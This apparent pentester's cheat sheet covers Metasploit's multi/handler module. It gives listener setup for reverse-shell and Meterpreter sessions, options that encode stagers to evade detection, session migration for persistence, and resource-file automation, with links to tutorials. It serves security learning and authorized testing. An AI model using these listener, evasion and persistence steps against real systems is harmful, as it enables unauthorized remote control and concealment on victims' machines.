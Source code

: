 # Index
- [[Metasploit]]
	- [[Metasploit Multi Handler]]
	- [[Meterpreter]]
	- [[Msfvenom]]
	- [[Searchsploit]]

# Metasploit Multi-Handler

The Metasploit Framework’s `multi/handler` is a powerful module that handles incoming reverse shells or bind shells from exploited systems. It is commonly used to connect with payloads generated by Metasploit such as Meterpreter, shell payloads, or any custom reverse shell. This ultimate edition of the cheat sheet provides an exhaustive list of Metasploit multi/handler commands, usage scenarios, and advanced techniques.

#### Basic Syntax

```bash
use exploit/multi/handler
set PAYLOAD <payload_name>
set LHOST <attack_ip>
set LPORT <attack_port>
exploit
```

## Core Options

- `set PAYLOAD <payload_name>`: Specifies the payload to handle (e.g., `windows/meterpreter/reverse_tcp`).
- `set LHOST <attack_ip>`: Defines the local IP address to use for listening for incoming connections.
- `set LPORT <attack_port>`: Specifies the local port to listen on.
- `set ExitOnSession false`: Keeps the handler running after a session is established, allowing multiple sessions.
- `set ExitOnSession true`: Exits the handler after a session is established (default).
- `set AutoRunScript <script>`: Executes a specific Meterpreter script when a session is established.
- `exploit -j`: Runs the exploit in the background as a job.
- `set SessionLogging true`: Logs sessions to files in Metasploit’s log directory.
- `set EnableStageEncoding true`: Encodes the stager to evade detection.
- `set EnableUnicodeEncoding true`: Enables Unicode encoding for payload evasion.
- `set AutoLoadStdapi true`: Automatically loads the `stdapi` (standard Meterpreter API).
- `sessions -l`: Lists active sessions.
- `sessions -i <session_id>`: Interacts with a specific session.
- `jobs -l`: Lists running background jobs.
- `jobs -K`: Terminates all background jobs.

# Commands and Usage

#### Session Management and Automation

1. **Listing Active Sessions:**Lists all active sessions handled by Metasploit.
    ```bash
    sessions -l
    ```
 2. **Interacting with a Specific Session:** Interacts with a specific session by providing the session ID.
    ```bash
    sessions -i <session_id>
    ```
3. **Migrating a Meterpreter Session:** Migrates a Meterpreter session to another process to maintain persistence and avoid detection.
    ```bash
    sessions -i <session_id>
    meterpreter > migrate <process_id>
    ```
4. **Running Scripts on Session Establishment:** Automatically migrates the session to another process upon session establishment, ensuring that the session persists.
    ```bash
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST <attack_ip>
    set LPORT <attack_port>
    set AutoRunScript post/windows/manage/migrate
    exploit
    ```
5. **Auto-Handling Multiple Sessions:** Automatically handles multiple sessions by keeping the handler active after each session is established.
    ```bash
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST <attack_ip>
    set LPORT <attack_port>
    set ExitOnSession false
    exploit -j
    ```
6. **Automating Exploit Workflow with Resource Files:** Uses Metasploit resource files to automate complex tasks. A typical resource file contains commands like `use`, `set`, `exploit`, etc., allowing for automation of entire workflows.
    ```bash
    resource /path/to/resource.rc
    ```

# Resources

|**Website**|**URL**|
|-|-|
|Metasploit Framework Documentation|https://docs.metasploit.com|
|Metasploit GitHub Repository|https://github.com/rapid7/metasploit-framework|
|Metasploit Cheat Sheet|https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/|
|Meterpreter Cheat Sheet|https://www.hackingarticles.in/meterpreter-commands-cheat-sheet/|
|Exploiting with Multi-Handler|https://www.hackingarticles.in/multi-handler-exploiting-cheat-sheet/|
|Customizing Multi-Handler Payloads|https://www.exploit-db.com/docs/english/44971-metasploit-payloads-customization.pdf|
|Setting Up Multi-Handler for Reverse Shells|https://www.hackingarticles.in/ultimate-guide-to-metasploit-payloads/|
|Post-Exploitation with Meterpreter|https://pentestlab.blog/2017/04/07/post-exploitation-with-meterpreter/|
|Metasploit Resource Files for Automation|https://null-byte.wonderhowto.com/how-to/metasploit-for-beginners-automate-your-pen-testing-with-resource-scripts-0194444/|
|Handling Multiple Sessions with Multi-Handler|https://docs.rapid7.com/metasploit/using-metasploit-handler-for-multiple-sessions/|
|Advanced Multi-Handler Techniques|https://null-byte.wonderhowto.com/how-to/metasploit-basics-gain-remote-access-victim-via-exploiting-reverse-shell-attack-0175289/|